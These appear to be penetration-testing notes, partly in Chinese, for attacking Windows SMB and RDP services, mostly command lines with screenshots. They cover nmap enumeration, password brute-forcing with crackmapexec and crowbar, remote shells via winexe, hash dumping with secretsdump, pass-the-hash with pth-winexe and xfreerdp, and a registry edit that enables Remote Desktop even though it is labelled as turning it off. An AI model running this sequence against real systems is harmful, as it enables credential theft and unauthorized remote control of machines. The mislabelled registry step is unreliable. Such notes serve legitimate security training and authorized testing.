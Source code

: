 CIFS / SMB - TCP 139,445
---
    sudo nmap -p445 -sVC  192.168.0.20
<img alt="image" src="https://github.com/user-attachments/assets/76c30c5e-69be-42ae-826d-1f104c0f411d">

    sudo nmap --script smb-os-discovery,smb-protocols
<img  alt="image" src="https://github.com/user-attachments/assets/30de62a4-dd77-4391-989c-26ca2b44b01a">

    impacket Version > 0.9.23
<img  alt="image" src="https://github.com/user-attachments/assets/84866f67-e756-413f-bc5c-14909e7e9b7b">

    更新版本
<img  alt="image" src="https://github.com/user-attachments/assets/64b6e446-092e-4ed8-80b9-cf1fcacd20b3">

    暴力破解crackmapexec smb <smb_IP> -u <users.txt> -p <password.txt>
<img  alt="image" src="https://github.com/user-attachments/assets/a04beb33-4191-4435-8823-0e65c879b74d">

    利用爆破拿到的帳密執行winexe winexe –U 'Username%Password' //<IP> cmd.exe
<img alt="image" src="https://github.com/user-attachments/assets/3fb9e8d6-69ae-400a-b713-0754621ee0e6">

    secretsdump.py 'administrator:Pa$$w0rd'@192.168.0.21 取得密碼HASH
<img width="506" alt="image" src="https://github.com/user-attachments/assets/75476e40-c987-4da6-b6ff-a87a1f2e7ee1">

    執行pth-winexe –U 'Username%<LM_hash:NTLM_hash>' //<IP> cmd.exe
<img  alt="image" src="https://github.com/user-attachments/assets/ea5804da-21b6-495e-aec5-2bc6f6b79c97">

RDP - TCP 3389
---
    freerdp Version > 2.3
    freerdp2-x11
    libfreerdp2-2
    libfreerdp-client2-2
    sudo dpkg –l | grep freerdp
<img  alt="image" src="https://github.com/user-attachments/assets/9798b42a-0db9-43c3-928e-f1528f51da64">

    暴力破解工具crowbar
    sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys 823BF07CEB5C469B
    sudo apt install –y crowbar 
    crowbar [-v] –b rdp –s <IP/CIDR> –u user –c password
    crowbar [-v] –b rdp –s <IP/CIDR> –U Users.txt –C Passwords.txt

    xfreerdp遠端桌面工具
    xfreerdp /size:90% /v:<rdp_IP> /u:<user> /p:<password>
    xfreerdp /size:90% /v:<rdp_IP> /u:<user> /pth:<ntlm_hash>
<img alt="image" src="https://github.com/user-attachments/assets/c0f84645-6d65-4bd5-af98-4ab6844a165c">

    關閉遠端桌面
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
<img  alt="image" src="https://github.com/user-attachments/assets/7dc0850f-419a-4d06-bf35-c5ae7f37d432">
